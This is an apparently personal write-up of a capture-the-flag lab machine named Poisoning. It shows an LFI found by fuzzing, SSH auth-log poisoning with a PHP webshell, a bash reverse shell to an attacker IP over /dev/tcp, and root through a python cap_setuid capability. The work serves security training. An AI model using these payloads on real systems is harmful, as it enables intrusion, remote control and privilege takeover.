 ```yaml
---
title: 'Poisoning Writeup'
date: '2024-11-08'
tags: ['LFI', 'RCE', 'Linux', 'Hacking Club']
draft: false
summary: 'The Poisoning machine has an LFI vulnerability exploited with Log Poisoning for RCE execution, followed by privilege escalation using Python with cap_setuid+ep capability for root.'
images: ['/static/images/poisoning-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/poisoning-writeup-images/default.png)

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 44:78:eb:00:c1:c8:a7:25:1c:57:61:68:2b:1b:37:37 (RSA)
|   256 1d:6f:e8:50:cb:74:10:cc:62:60:43:76:38:67:e3:be (ECDSA)
|_  256 99:8a:b1:8b:f3:c3:47:a0:14:20:33:d7:0b:71:92:8d (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Crowsec
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Nicepage 3.25.3, nicepage.com
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only ports 22 (SSH) and 80 (HTTP) are open.

---

### **Enumeration**

## http://172.16.7.186

![poisoning](/static/images/poisoning-writeup-images/image.png)

The website itself doesn't have much functionality; however, I was able to find a PHP file that we can use to gain LFI.

![poisoning 2](/static/images/poisoning-writeup-images/image1.png)

I used `ffuf` to fuzz the parameter:

`ffuf -u http://172.16.7.186/\\?FUZZ\\=/etc/passwd -ic -w /usr/share/wordlists/seclists/Discovery/Web-Content/dirsearch.txt -fw 5559`

![poisoning 2](/static/images/poisoning-writeup-images/image2.png)

Page parameter found!

`http://172.16.7.186/?page=/etc/passwd`

![poisoning 3](/static/images/poisoning-writeup-images/image3.png)

Since port 22 (SSH) is open, I escalated the LFI to an RCE by poisoning the SSH log.

First, I connected to SSH with netcat:

`nc -nv $IP 22`

Then, I sent the PHP webshell inside the SSH.

`h4x0rh4x/<?php passthru($_GET['cmd']); ?>`

![poisoning 4](/static/images/poisoning-writeup-images/image4.png)

To check if it worked, we need to use the LFI to access the `var/log/auth.log` directory.

`172.16.7.186/?page=/var/log/auth.log`

![poisoning 5](/static/images/poisoning-writeup-images/image5.png)

With that, we have our RCE.

---

## Foot Hold

`http://172.16.7.186/?page=/var/log/auth.log&cmd=bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'`

NOTE: Remember to encode the payload.

![poisoning 6](/static/images/poisoning-writeup-images/image6.png)

---

## Privillege Escalation

`getcap -r / 2>/dev/null`

![poisoning 7](/static/images/poisoning-writeup-images/image7.png)

`/usr/bin/python3.6 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

![poisoning 8](/static/images/poisoning-writeup-images/image8.png)

---

## Proof

![poisoning 9](/static/images/poisoning-writeup-images/image9.png)
